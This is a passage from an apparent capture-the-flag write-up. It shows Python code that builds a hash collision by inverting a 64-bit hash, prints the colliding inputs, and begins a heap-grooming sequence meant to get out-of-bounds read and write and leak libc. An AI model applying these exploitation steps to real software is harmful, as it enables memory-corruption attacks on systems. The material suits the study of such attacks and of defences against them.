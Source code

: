 ```python
    for i in range(64):
        res = x ^ res >> shift
    return res

def invert64(n):
    x = (n * 0x5f7a0ea7e59b19bd) & MASK64
    x = unshiftRight(x, r)
    x = (x * 0x5f7a0ea7e59b19bd) & MASK64
    return int.to_bytes(x, 8, 'little')

a = b'A'*16
b = bytes(x^y for x,y in zip(a,DIFF))

x1, x2 = int.from_bytes(a[:8], 'little'), int.from_bytes(a[8:], 'little')
y1, y2 = int.from_bytes(b[:8], 'little'), int.from_bytes(b[8:], 'little')

print((invert64(y1) + invert64(y2)).hex())
print((invert64(x1) + invert64(x2)).hex())
```
The script provides two strings whose hashes collide (hex-encoded):
```
c2c48614896beac4c2c48614896beac4
c2c4c9faed854236c2c4c9faed854236
```
With that in hands, I could continue with the exploit.

## Setup the heap
With the hash collision in hands, my plan was clear: Create a small cache, then collide it with a larger one to achieve out-of-bound read and write through that cache. The first step is to perfectly construct the heap so that I could read/write all the stuffs I need:
```python
# Create a small cache to collide on later
create(collide1, 0x30) 
write(collide1, 0, 8, "A"*8)

# Create victim caches to poison
create("victim1", 0x100) 
write("victim1", 0, 8, "B"*8)
create("victim2", 0x100) 
write("victim2", 0, 8, "C"*8)

# Create large cache to leak libc
create("leak", 0x2000) 
write("leak", 0, 8, "D"*8)

# Create padding cache to avoid consolidate
create("padd", 0x40) 
write("padd", 0, 8, "E"*8)

# Collide the first cache with a very large one
create(collide2, 0x2000) 
```
